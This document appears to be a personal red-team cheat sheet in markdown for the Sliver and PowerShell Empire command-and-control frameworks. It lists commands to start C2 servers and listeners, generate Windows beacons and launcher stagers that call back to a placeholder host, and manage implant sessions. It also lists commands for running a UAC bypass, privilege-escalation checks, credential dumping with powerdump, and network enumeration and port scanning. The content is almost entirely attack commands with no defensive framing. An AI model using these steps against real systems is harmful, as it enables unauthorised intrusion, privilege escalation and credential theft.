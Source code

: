 # Sliver
## Multiplayer
### Sliver-Server
```bash
./sliver-server operator --name name --lhost 1.2.3.4
```
### Sliver - Create new player
```bash
new-player  -n name -l 1.2.3.4 -s /tmp/
### Sliver-Client
```basg
./sliver-client import name_1.2.3.4.cfg
```
## start a listener  - https
```bash
https
```
## Generate a beacon
```bash
generate --os windows --http 1.2.3.4 --skip-symbols first
```
## view implants
```bash
implants
```
## view and enter session
```bash
sessions
use 1
```
## Execute-assembly :D
```bash
execute-assemnly /home/user/labs/SharpWMI.exe action=Loggedn
```
# Powershell Empire
## Start Server
```bash
./ps-empire server
```
## Start client
```bash
./ps-empire client
```
## start listener
```bash
uselistener <http>
```
### Options
```bash
set DefaultDelay 1
set port 9999
set host http://<IP>:9999
```
### Verify Options
```bash
listeners
```
## Execute
```bash
execute
```
## create agent - bat
```bash
usestager windows/launcher_bat
```
## create agent - xml
```bash
usestager windows/launcher_xml
```
### options
```bash
set listener http
```
### Gerate agent
```bash
generate
```
## View active sessions "Agents"
```bash
agents
```
## enter session
```bash
interact agent1
```
## usemodule
### UAC Bypass
```bash
usemodule /powershell/privesc/ask
execute
```
#### connect to c2
```bash
set Listener http
execute
```
### winenum
```bash
usemodule powershell/situational_awareness/winenum
execute
```
### Privesc all checks
```bash
usemodule /powershell/privesc/powerup/allchecks
execute
```
### Powerdump
```bash
usemodule /powershell/credentials/powerdump
execute
```
#### see results
```bash
View <task_#>
```

## portscan
### Check Network
```bash
shell ipconfig
```
### Portscan
```bash
usemodule powershell/situational_awareness/network/portscan
```
#### view open ports for a host
```bash
set hosts 10.10.10.11
execute
```
